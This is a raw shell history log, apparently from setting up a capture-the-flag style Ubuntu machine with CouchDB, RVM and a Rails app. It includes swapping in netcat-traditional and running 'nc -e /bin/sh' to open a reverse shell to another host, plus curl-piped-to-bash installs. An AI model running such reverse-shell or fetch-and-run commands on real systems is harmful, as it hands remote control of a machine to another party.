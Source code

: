 ```
atena@ubuntu:~$ cat .bash_history
sudo -s
cd /etc/apt/
rm sources.
rm sources.list
wget https://gist.githubusercontent.com/rohitrawat/60a04e6ebe4a9ec1203eac3a11d4afc1/raw/fcdfde2ab57e455ba9b37077abf85a81c504a4a9/sources.list
apt-get update
apt-get dist-upgrade 
sudo apt-get install software-properties-common
sudo add-apt-repository ppa:couchdb/stable
sudo apt-get update
sudo apt-get install couchdb
sudo chown -R couchdb:couchdb /usr/bin/couchdb /etc/couchdb /usr/share/couchdb
sudo chmod -R 0770 /usr/bin/couchdb /etc/couchdb /usr/share/couchdb
sudo systemctl restart couchdb
curl localhost:5984
apt install curl
curl localhost:5984
nano /etc/couchdb/local.ini
$ sudo systemctl restart couchdb
sudo systemctl restart couchdb
sudo firewall-cmd --zone=public --add-port=5984/tcp --permanent
sudo apt-get install build-essential curl nodejs
gpg --keyserver hkp://keys.gnupg.net --recv-keys 409B6B1796C275462A1703113804BB82D39DC0E3
curl -sSL https://get.rvm.io | bash -s stable --ruby
curl -sSL https://rvm.io/mpapis.asc | sudo gpg --import -
curl -sSL https://rvm.io/pkuczynski.asc | sudo gpg --import -
gpg --keyserver hkp://keys.gnupg.net --recv-keys 409B6B1796C275462A1703113804BB82D39DC0E3
curl -sSL https://get.rvm.io | bash -s stable --ruby
source /usr/local/rvm/scripts/rvm
rvm list known
rvm install 2.2
rvm use 2.2 --default
gem install rails -v 5.0
gem install rails -v 4.1
cd /root/
ls
mkdir railsflag
cd railsflag/
ls
rails new flag
ls
cd flag/
ls
rails -s
nestat -antl
netstat -antl
rails server
gem 'sqlite3'
gem install sqlite3
ls
nano Gemfile
rails server
nano Gemfile
rails server
bundle install
rails server
apt-get remove netcat-openbsd 
apt-get install netcat-traditional 
rails server
nc -e /bin/sh 192.168.85.142 4444
rails server
```
